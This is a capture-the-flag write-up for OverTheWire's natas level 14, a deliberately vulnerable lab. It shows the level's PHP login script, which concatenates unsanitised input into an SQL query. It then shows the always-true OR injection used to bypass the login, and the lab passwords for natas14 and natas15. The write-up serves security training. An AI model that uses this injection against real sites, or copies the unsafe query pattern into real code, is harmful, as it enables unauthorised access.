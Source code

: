 Level #14 go to URL and find natas15 user password

- URL: http://natas14.natas.labs.overthewire.org/
- User: natas14
- Password: qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

After navigating to URL an html page with a form with 3 inputs and an anchor element with the text "View sourcecode" is loaded.
Clicking on the anchor elements redirects to the source code of the php script being run by server.
  

```PHP
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
```

The query is not sanitized and should be simple to modify it in a way that it doesn't ask for a password.

Bypassed by adding an or operator and a condition that is always true to both sides of the and operator.

Final SQL query will be:
```SQL
SELECT * from users where username="" OR "1"="1"" and password="" OR "1"="1""
```
  
Recreated the request with postman.
  
  
The password for natas15 is 
TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
